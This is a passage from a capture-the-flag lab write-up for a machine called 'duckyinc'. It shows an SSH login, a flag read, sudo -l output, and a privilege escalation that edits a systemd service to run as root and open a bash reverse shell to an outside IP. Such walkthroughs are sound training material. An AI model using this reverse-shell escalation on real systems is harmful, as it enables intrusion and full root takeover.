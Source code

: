 we can use ssh to login, and we got flag2.
`ssh server-admin@10.10.68.32`  
```
Last login: Wed Aug 12 20:09:36 2020 from 192.168.86.65
server-admin@duckyinc:~$ ls
flag2.txt
server-admin@duckyinc:~$ cat flag2.txt
thm{4lm0st_th3re}
server-admin@duckyinc:~$
```
- [x] flag3
usualy, finaly flay will need to root privilege, so we can find to privilege escalation method.  

check server-admin privilege `sudo -l`  
```
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl
        daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
```

we know we can change duckyinc to got root privilege.  
step 1. change duckyinc.service by sudoedit  
`sudoedit /etc/systemd/system/duckyinc.service`  
change user and group to root, and start can change /bin/bash -c 'bash -i >& /dev/tcp/10.10.136.48/9999 0>&1'
before
```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=flask-app
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```  
After
```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.136.48/9999 0>&1'
#ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```